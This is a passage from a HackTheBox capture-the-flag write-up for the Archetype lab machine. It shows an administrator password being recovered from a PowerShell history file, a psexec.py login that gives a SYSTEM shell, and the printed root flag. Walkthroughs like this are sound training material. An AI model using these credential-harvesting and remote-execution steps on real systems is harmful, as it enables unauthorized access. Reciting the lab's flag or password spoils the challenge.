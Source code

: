 The `ConsoleHost_history.txt` file might contain some interesting information.

```console
C:\Users\sql_svc\Downloads>type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

We found username and password for administrator:

username: `administrator`

administrator: `MEGACORP_4dm1n!!`

We can use `psexec.py` from the [impacket](https://github.com/SecureAuthCorp/impacket) suite to connect. 

```console
┌──(kali㉿kali)-[~]
└─$ psexec.py administrator@10.129.156.236
Impacket v0.9.25.dev1+20220407.165653.68fd6b79 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.156.236.....
[*] Found writable share ADMIN$
[*] Uploading file XBySiGIk.exe
[*] Opening SVCManager on 10.129.156.236.....
[*] Creating service gWUC on 10.129.156.236.....
[*] Starting service gWUC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> dir C:\Users\Administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\Administrator\desktop

07/27/2021  02:30 AM    <DIR>          .
07/27/2021  02:30 AM    <DIR>          ..
02/25/2020  07:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,711,404,544 bytes free

C:\Windows\system32> type C:\Users\Administrator\desktop\root.txt
b91ccec3305e98240082d4474b848528
```

And that is the final flag!


**Flag:** `b91ccec3305e98240082d4474b848528`

---
**Tags:** [[HackTheBox]]